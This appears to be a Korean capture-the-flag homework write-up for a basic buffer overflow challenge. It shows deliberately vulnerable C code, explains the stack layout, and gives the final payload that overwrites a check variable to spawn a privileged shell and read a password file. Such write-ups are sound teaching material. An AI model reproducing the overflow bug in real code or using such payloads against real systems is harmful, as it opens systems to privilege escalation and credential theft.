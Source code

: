## Week4_HW_BofBasic

* Source code
```c
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>
#include <stdio.h>
 
int main()
{
 
  int var;
  int check = 0x04030201;
  char buf[40];
 
  fgets(buf,45,stdin);
 
  printf("\n[buf]: %s\n", buf);
  printf("[check] %p\n", check);
 
  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");
 
  if (check == 0xdeadbeef)
   {
     printf("Yeah dude! You win!\nOpening your shell...\n");
     setreuid(geteuid(), geteuid());
     system("/bin/bash");
     printf("Shell closed! Bye.\n");
   }
   return 0;
}
```
<hr>

### Explanation

* 변수가 var -> check -> buf 순으로 선언되었기 때문에 
* 위 코드에서 스택의 구조는 아래와 같다.


```<pre>
[      buf[40]      ]
[ check(0x04030201) ]
[        var        ]
[        SFP        ]
[        RET        ]

```

* fgets함수로 45바이트의 문자를 받을 수 있기 때문에 
check변수를 원하는 값(0xdeadbeef)으로 덮을 수 있다.

* buf에 40byte를 채우고 check에 0xdeadbeef를 리틀엔디언 방식을 넣어주면 쉘이 실행될 것이다.
* 위의 과정을 수행할 수 있는 페이로드를 짜면 
`(python -c 'print "A"*40 + "\xef\xbe\xad\xde"') | ./ch13`
이다. 
    * "|" 기호는 "파이프라인"이라는 기호로 한명령어의 출력을 다른 명령어의 입력으로 연결하는데 사용된다.
    * 따라서 파이프라인 왼쪽에 있는 입력값을 './ch13'의 입력을 전달한다.
* 그러나 이대로 실행하면 "shell closed! Bye" 라는 문구가 출력되면서 쉘이 종료된다.
* 이를 방지하기 위해 cat과 같이 shell 실행 후 입력을 받아주는 명령어를 추가하여 shell이 종료되지 않고 유지되게 해준다.
* 명령어를 구분하는 구분자로 ";" 가 사용되므로 
`(python -c 'print "A"*40 + "\xef\xbe\xad\xde"' ; cat) | ./ch13` 가 최종 페이로드코드가 된다.

* 위 페이로드를 넣으면 `"Yeah dude! You win!\nOpening your shell...\n"` 라는 문구가 나오고
* `ls -a` 명령어를 통해 .passwd파일을 확인할 수 있고 `cat` 명령어를 통해 password를 취할 수 있다.




